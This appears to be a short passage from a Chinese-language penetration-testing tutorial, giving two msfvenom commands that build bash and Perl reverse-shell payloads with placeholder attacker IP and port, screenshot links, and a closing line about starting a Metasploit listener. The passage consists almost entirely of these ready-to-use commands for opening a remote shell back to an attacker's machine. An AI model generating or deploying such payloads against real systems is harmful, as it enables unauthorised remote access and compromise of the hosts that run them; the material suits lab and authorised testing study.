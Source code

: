 ```
msfvenom -p cmd/unix/reverse_bash LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.pl

```

![image-20240306214751920](image/image-20240306214751920.png)

<img src="image/image-20240306214810990.png" alt="image-20240306214810990" style="zoom:67%;" />

再进入msf的主程序开启监听端口

